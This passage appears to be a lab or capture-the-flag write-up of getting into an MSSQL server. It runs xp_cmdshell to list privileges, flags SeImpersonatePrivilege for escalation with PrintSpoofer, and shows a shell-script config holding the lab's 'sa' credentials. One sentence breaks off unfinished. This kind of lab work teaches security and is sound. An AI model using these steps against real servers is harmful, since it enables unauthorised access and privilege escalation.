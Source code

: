 And we got access to the server. 
We can run cmd command on the machine by invoking the command *xp-cmdshell* 

## Privileged escalation

```cmd
xp_cmdshell whoami /priv
nt service\\mssql$sqlexpress

SeAssignPrimaryTokenPrivilege Reemplazar un símbolo (token) de nivel de proceso Deshabilitado   
  
SeIncreaseQuotaPrivilege      Ajustar las cuotas de la memoria para un proceso  Deshabilitado      
  
SeMachineAccountPrivilege     Agregar estaciones de trabajo al dominio          Deshabilitado      
  
SeChangeNotifyPrivilege       Omitir comprobación de recorrido                  Habilitada         
  
SeManageVolumePrivilege       Realizar tareas de mantenimiento del volumen      Habilitada         
  
SeImpersonatePrivilege        Suplantar a un cliente tras la autenticación      Habilitada         
  
SeCreateGlobalPrivilege       Crear objetos globales                            Habilitada         
  
SeIncreaseWorkingSetPrivilege Aumentar el espacio de trabajo de un proceso      Deshabilitado
```

lets put it into translate to better understand what it say

```
SeAssignPrimaryTokenPrivilege Replace a process-level token Disabled
  
SeIncreaseQuotaPrivilege Adjust memory quotas for a Disabled process
  
SeMachineAccountPrivilege Add workstations to domain Disabled
  
SeChangeNotifyPrivilege Skip Traversal Check Enabled
  
SeManageVolumePrivilege Perform volume maintenance tasks Enabled
  
SeImpersonatePrivilege Impersonate a client after authentication Enabled
  
SeCreateGlobalPrivilege Create global objects Enabled
  
SeIncreaseWorkingSetPrivilege Increase the workspace of a Disabled process
```

Look at *SeImpersonatePrivilege* it allows us to impersonate another client. 
Printspoofer allows us to 
A quick google search  for mssql shell lead me to this page. 
https://alamot.github.io/mssql_shell/

create a python script with the code from the site and edit the configuration to look like this 

```python
MSSQL\_SERVER="10.10.10.240"  
MSSQL\_USERNAME = "sa"  
MSSQL\_PASSWORD = "#mssql\_s3rV1c3!2020"
```
